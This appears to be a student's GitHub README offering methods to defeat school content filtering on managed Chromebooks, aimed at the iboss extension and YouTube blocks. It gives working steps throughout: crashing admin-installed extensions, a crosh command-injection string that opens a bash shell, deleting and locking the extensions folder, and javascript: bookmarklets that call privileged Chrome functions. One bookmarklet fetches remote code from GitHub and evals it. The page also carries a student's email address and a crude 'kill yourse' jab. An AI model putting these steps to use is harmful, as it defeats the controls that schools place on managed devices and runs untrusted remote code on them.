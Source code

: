 ## Tools for responsible students. If you do not have a brain, turn back now.
<br>



<details>
    
<summary><b>unblock youtube (EVEN EASIER)</b></summary>

1. Find a video, then right click on it and click on "copy link address"
    
2. Paste the URL into your search bar
    
3. Add a - after the T in the url, like this:
    
    you<b>-</b>tube​.com/watch?v=dQw4w9WgXcQ

4. Press enter

[i'm illiterate and can't read, i need a video tutorial](https://bit.ly/3BFKyRT)

</details>

    
<br>
<br>
<details>
    
<summary>blow up iboss (PATCHED!!!)</summary>

0. READ THE WHOLE THING BEFORE ATTEMPTING!!! IF I GET ONE MORE STUPID EMAIL I SWEAR IM DELTEING THIS WHOLE PAGE!!!<sub>sysadmins you didnt hear that<sub>

1. Go to this page: `chrome-extension://kmffehbidlalibfeklaefnckpidbodff/manifest.json`

2. Bookmark the extension page (bookmark A) if you wish. Then, bookmark `chrome://kill` (B) and `chrome://hang` (C).

3. While on the extension page (A), click the chrome://kill bookmark (B). The page should crash. MAKE SURE TO READ STEP 4 BEFORE DOING STEP 3.

4. INSTANTLY start spamming chrome://hang (bookmark C) and quickly reload the page while spamming (ideally with the refresh key on your keyboard or ctrl+R). You should have reloaded within one or two seconds of killing the page. See timing here:
    
    <img width="522" alt="timing diagram" src="https://ltmeat.bypassi.com/img/line.png">
    <br>
    <img width="327" alt="timing diagram" src="https://ltmeat.bypassi.com/img/abc.gif">
    
If you go to [this page](https://www.google.com/search?q=chick+fil+a&rlz=1CASFJY_enUS1052&oq=proxy+fil+a&aqs=chrome.0.0i271j46i131i199i433i465i512j46i340i433i512l2j46i131i199i433i465i650j0i512j0i433i512j0i512jknives%20in%20ww10i271.1044j0j7&sourceid=chrome&ie=UTF-8&safe=active&ssui=on) and it loads, it worked!. You can close your tabs and the extension will be blown up successfully. If nothing loads, then you probably reloaded too late or spammed too slow. This isn't rocket science! Restart your computer and try again.


Note that the steps above are by no means the only way to perform the exploit. I'll add the first alternate set of instructions on May 11th for people affected by patches.
    
Need help? Go <b>~~kill yourse~~</b> email me [here](mailto:2027ramid16@moundsviewschools.org) or open an issue [here](https://github.com/Sreekar617/i-love-rice/issues/new) (you need a github account!)
    
</details>

<details>

<summary>unblock youtube (PATCHED!!!)</summary>
0. READ THE WHOLE THING BEFORE ATTEMPTING!!! THIS IS DIFFERENT FROM THE ABOVE METHOD!!!

1. Go to this page: `chrome-extension://bjlelllmddmghonfckbpjafiamjhlkio/manifest.json`

2. Bookmark the extension page (bookmark A) if you wish. Then, bookmark `chrome://kill` (B) and `chrome://hang` (C).

3. While on the extension page (A), click the chrome://kill bookmark (B). The page should crash. MAKE SURE TO READ STEP 4 BEFORE DOING STEP 3.

4. INSTANTLY start spamming chrome://hang (bookmark C) and quickly reload the page while spamming (ideally with the refresh key on your keyboard or ctrl+R). You should have reloaded within one or two seconds of killing the page. See timing here:
    
    <img width="522" alt="timing diagram" src="https://ltmeat.bypassi.com/img/line.png">
    <br>
    <img width="327" alt="timing diagram" src="https://ltmeat.bypassi.com/img/abc.gif">
    
5. Click on the lock or building icon
<img width="379" alt="current_settings" src="https://user-images.githubusercontent.com/115044820/231313548-5de4be10-b851-415e-b3f8-88d745479b0d.png">

6. Click on "Cookies and site data"
<img src="https://user-images.githubusercontent.com/115044820/231524166-9db656cc-1b8e-4572-b35f-04d75f477145.png" alt="Screenshot 2023-04-11 7.01.37 PM.png"/>

7. Delete all the cookies. NO COOKIES!!!
<img src="https://user-images.githubusercontent.com/115044820/231531249-8af4af81-068a-4cff-adac-bb9f918efd6c.png" alt="Screenshot 2023-04-12 11.27.26 AM.png"/>

8. Go to youtube.com in a new tab.

If it loads, it worked!. Just don't close your tabs and the extension will be blown up successfully. If it stops working, redo steps 5-8. If it still doesn't work, close all your tabs and try again.


Note that the steps above are by no means the only way to perform the exploit. I'll add the first alternate set of instructions on May 11th for people affected by patches.
    
Need help? Go <b>~~kill yourse~~</b> email me [here](mailto:2027ramid16@moundsviewschools.org) or open an issue [here](https://github.com/Sreekar617/i-love-rice/issues/new) (you need a github account!)

</details>

<details>

<summary>root escalation (hack admin, HARD!)</summary>

0. THIS IS VERY DIFFICULT. DO NOT PROCEED WITHOUT ATLEAST A BASIC UNDERSTANDING OF BASH. base64 lmao
        
1. Find an unblocked way to open crosh. Do not ask me for help on this, I will not tell you how.

2. Type in `set_cellular_ppp \';bash;exit;\'`
        
3. You should be logged in as chronos. There is a way to escalate root from this position, but again im not telling you
        
4. rm -rf ~/Extensions/*

5. chmod 000 ~/Extensions/

5. wuv you sysadmins <3

</details>

<details>

<summary>blow up iboss method 2 (PATCHED!!!)</summary>

1. Bookmark any page
2. Copy the code below
```js
javascript:opener.eval(`
(async function () {
    eval((await (await fetch("https://raw.githubusercontent.com/Sreekar617/i-love-rice/main/cod.js")).text()));
})();`) && close();
```
3. Right click on the bookmark, click on "edit"
4. Under the field labeled "URL", paste in the code.
5. Go to [this page.](https://tinyurl.com/byeswamp)
6. Click on "The Blue Hat Crew Is the Best!"
7. On the blank page that appears, click on the bookmark you created earlier.
8. Click on "iboss cloud enterprise"

</details>

  
<details>
  
  <summary>extension thingie (PATCHED!!!)</summary>
  
1. Copy the code below
  ```js
  javascript:opener.chrome.send("TurnOffSync");
  ```
2. Bookmark any random page
3. Right click on the bookmark, and hit "Edit"
4. Under the field labeled "URL", paste in the code
5. Visit chrome://settings/resetProfileSettings
6. Press on "current settings"
<img width="379" alt="current_settings" src="https://user-images.githubusercontent.com/115044820/230745894-49e77af2-b4e5-4441-b7d3-075c7674ff58.png">
  
7. On the new page that opens, click on the bookmark you created earlier.
8. visit chrome://restart, DO NOT RESTART YOUR CHROMEBOOK MANUALLY
9. repeat steps 5-8 every time it stops working.
10. if google sign-ins break, restart your device.

Go to youtube, click the lock next to the url, click on "cookies and site data", and delete all cookies. In a new tab, go to youtube. It should be unblocked.

</details>

<details>
  
<summary>Unblock Youtube (PATCHED!!!)</summary>
 
1. Click on the lock
<img width="379" alt="current_settings" src="https://user-images.githubusercontent.com/115044820/231313548-5de4be10-b851-415e-b3f8-88d745479b0d.png">

2. Click on "Cookies and site data"
<img src="https://user-images.githubusercontent.com/115044820/231524166-9db656cc-1b8e-4572-b35f-04d75f477145.png" alt="Screenshot 2023-04-11 7.01.37 PM.png"/>

3. Delete all the cookies. NO COOKIES!!!
<img src="https://user-images.githubusercontent.com/115044820/231531249-8af4af81-068a-4cff-adac-bb9f918efd6c.png" alt="Screenshot 2023-04-12 11.27.26 AM.png"/>

4. Go to youtube.com in a new tab.

</details>


Update on Projects:


| Project  | ETA |
| ------------- | ------------- |
| Uboss V3 (Unblocking Method)  | June  |
| Tissue Box  (Unblocking Method)  | September |
| Francium (Unblockable Unblocker) | June |
| Gallium (Game Site) | June |
| Blue (Unblocker) | September |
| Gemnoid (Unblocker) | September |

quick disclaimer none of these above projects are made by me, but i will still be posting them here. you think i have that much patience to work on one project for six months?

<b>me when you star and share:</b>

<img width="404" alt="literally me" src="https://user-images.githubusercontent.com/115044820/235795472-18621a38-e169-4260-a1be-1b74e58044e2.png">


<sub>I do not condone any misuse of the tools included here. Use responsibly and at your own risk. Everything on this page is for educational purposes to see how far we can push Chrome OS, the pathetic excuse for an operating system that runs on pathetic excuses for computers.</sub>
